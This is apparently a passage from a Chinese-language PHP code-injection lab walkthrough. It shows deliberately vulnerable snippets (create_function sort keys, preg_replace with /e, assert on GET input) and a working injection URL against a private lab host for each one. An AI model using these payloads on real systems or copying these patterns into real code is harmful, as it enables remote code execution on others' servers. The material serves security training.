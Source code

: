 ```
    }
    if (isset($order)) { 
      usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
    }
   }   

      ?>
      <table class='table table-striped' >
      <tr>
         <th><a href="example2.php?order=id">id</th>
         <th><a href="example2.php?order=name">name</th>
         <th><a href="example2.php?order=age">age</th>
      </tr>
      <?php

    foreach ($users as $user) {  
         echo "<tr>";
             echo "<td>".$user->id."</td>";
             echo "<td>".$user->name."</td>";
             echo "<td>".$user->age."</td>";
         echo "</tr>";
      }  
      echo "</table>";
  require '../footer.php';
?>
```
[http://192.168.245.131/codeexec/example2.php?order=id);](http://192.168.245.131/codeexec/example2.php?order=id);)}phpinfo();//
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\zO5OvNJDESkkkXbq.png)

### 2.1.7 Code injection Example 3
preg_replace(pattern,replacement,subject)：搜索subject中匹配pattern的部分，以replacement进行替换；当pattern是/e将会以PHP执行replacement中的代码。
```
<?php
   echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```
[http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer](http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer)
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\IOFYm2EysZgPM2jG.png)
### 2.1.8 Code injection Example 4
仅去除收尾的空白字符，进行闭合即可
```
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```
[http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//](http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//)
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\xRe3IldLe3gTPbX1.png)
